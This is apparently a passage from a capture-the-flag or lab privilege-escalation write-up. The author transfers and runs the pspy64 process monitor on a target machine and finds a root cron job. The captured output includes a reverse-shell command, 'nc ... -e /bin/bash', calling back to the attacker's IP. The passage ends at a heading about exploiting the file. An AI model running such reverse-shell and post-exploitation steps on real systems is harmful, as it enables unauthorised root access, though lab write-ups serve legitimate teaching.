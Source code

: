 To monitor running processes on the target system, we can use `pspy64`, a powerful tool designed to observe background processes without requiring root privileges. Since the target machine does not have this tool installed, we will transfer it by setting up a temporary file server using Python.

>[!Attention]
>Mount the server in thesame location of `pspy64`

With `find` to serach in case we do not know where we have it.

```bash
find / -name "pspy64" 2>/dev/null
```

**OUTPUT**

```bash
/opt/pspy64
# In my case
```

>[!Note]
>in case we don't have it we can download it from https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1

Run server:

```bash
python -m http.server 80
```


In Davd:

```bash
david@system:~$ wget "http://192.168.0.103/pspy64"
```

Now:

```bash
david@system:~$ chmod +x pspy64
david@system:~$ ./pspy64
```

**OUTPUT**

```bash
<SNIP>
2025/02/17 13:29:00 CMD: UID=0     PID=2      | 
2025/02/17 13:29:00 CMD: UID=0     PID=1      | /sbin/init 
2025/02/17 13:29:01 CMD: UID=0     PID=1090   | /usr/sbin/CRON -f 
2025/02/17 13:29:01 CMD: UID=0     PID=1091   | /usr/sbin/CRON -f 
2025/02/17 13:29:01 CMD: UID=0     PID=1092   | /bin/sh -c /usr/bin/python3.9 /opt/suid.py 
2025/02/17 13:29:02 CMD: UID=0     PID=1093   | /usr/bin/python3.9 /opt/suid.py 
2025/02/17 13:29:02 CMD: UID=0     PID=1094   | /bin/sh -c nc 192.168.0.103 8080 -e /bin/bash 
<SNIP>
```

Let's stop the `pspy64` and read this cron job `/usr/bin/python3.9 /opt/suid.py`

#### Step 2: Exploiting Found File for Privilege Escalation
